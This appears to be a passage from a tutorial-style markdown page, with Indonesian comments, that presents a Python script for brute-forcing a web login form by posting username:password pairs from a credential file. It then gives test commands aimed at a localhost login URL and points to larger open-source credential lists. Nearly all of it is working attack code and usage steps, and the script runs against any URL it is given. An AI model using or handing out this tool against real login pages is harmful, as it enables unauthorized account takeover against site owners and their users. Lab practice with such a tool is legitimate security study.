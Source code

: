 ```python
import requests
import argparse
import time
import sys

def load_credentials(file_path):
    credentials = []
    with open(file_path, 'r') as file:
        for line in file:
            if ':' in line:
                username, password = line.strip().split(':', 1)
                credentials.append((username, password))
    return credentials

def brute_force_login(url, credentials):
    for username, password in credentials:
        # field username & password dilihat dari HTML web (cek pakai inspect element)
        # Nama field tidak selalu standar, cek dulu sebelum tulis di program
        data = {
            "username": username,
            "password": password
        }
        try:
            response = requests.post(url, data=data)
            # response server bisa berupa redirect atau HTTP status code.
            # cek dahulu dengan curl behavior server
            if response.url.endswith("/learn"):
                print(f"✅ Login success: {username}:{password}")
                sys.exit(0) # langsung exit setelah ditemukan credential yang berhasil
            else:
                print(f"❌ Failed: {username}:{password}")

        except Exception as e:
            print(f"⚠️ Error with {username}:{password} → {e}")
        time.sleep(args.delay)    

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Brute force a login form via HTTP POST")
    parser.add_argument("--credentials", help="Path to credential file (username:password)")
    parser.add_argument("--url", help="Target login URL (e.g., http://localhost:8000/login)")
    parser.add_argument("--delay", type=float, default=1.0, help="Delay in seconds between each request (default: 1)")
    args = parser.parse_args()

    creds = load_credentials(args.credentials)
    brute_force_login(args.url, creds)
```

#### Validate
- Jalankan untuk berbagai skenario
  - 3 parameter lengkap: `python3 brute_login.py --credentials credentials.txt --url http://localhost:9090/login --delay 1.5`
  - tanpa credentials: `python3 brute_login.py --url http://localhost:9090/login --delay 2.5` --> ekspektasi: gagal
  - tanpa URL: `python3 brute_login.py --credentials credentials.txt --delay 2.5` --> ekspektasi: gagal
  - tanpa delay: `python3 brute_login.py --credentials credentials.txt --url http://localhost:9090/login` --> ekspektasi: berhasil
  - Gunakan referensi open source untuk list `credentials.txt` yang lebih lengkap (cek bagian Referensi di bawah).

